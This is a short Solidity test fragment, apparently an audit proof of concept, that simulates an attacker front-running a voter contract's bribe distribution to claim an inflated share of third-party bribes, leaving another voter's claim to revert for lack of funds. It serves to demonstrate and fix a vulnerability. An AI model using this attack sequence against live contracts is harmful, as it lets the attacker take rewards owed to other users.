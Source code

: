 ```
    hevm.warp(newEpoch() + 1);
    createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

    hevm.startPrank(admin);
    // attacker front-runs the distribution and votes with balance X
    voter.vote(tokenId1, pools, weights, 0);
    // now he executes the distribution
    voter.distribute();
    hevm.stopPrank();

    // time goes forward
    hevm.warp(block.timestamp + 2);

    // beef votes with balance X
    hevm.prank(beef);
    voter.vote(tokenId2, pools, weights, 0);

    // ------------------- Start epoch i+2
    hevm.warp(newEpoch() + 1);
    createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

    // distribution is executed
    voter.distribute();

    hevm.startPrank(admin);
    // attacker claims an inflated share
    voter.claimBribes(bribes, tokens, tokenId1);
    hevm.stopPrank();

    // time goes forward
    hevm.warp(block.timestamp + 2);

    hevm.startPrank(beef);
    // beef tries to claim but his transaction reverts due to lack of funds
    voter.claimBribes(bribes, tokens, tokenId2);
    hevm.stopPrank();

}
```

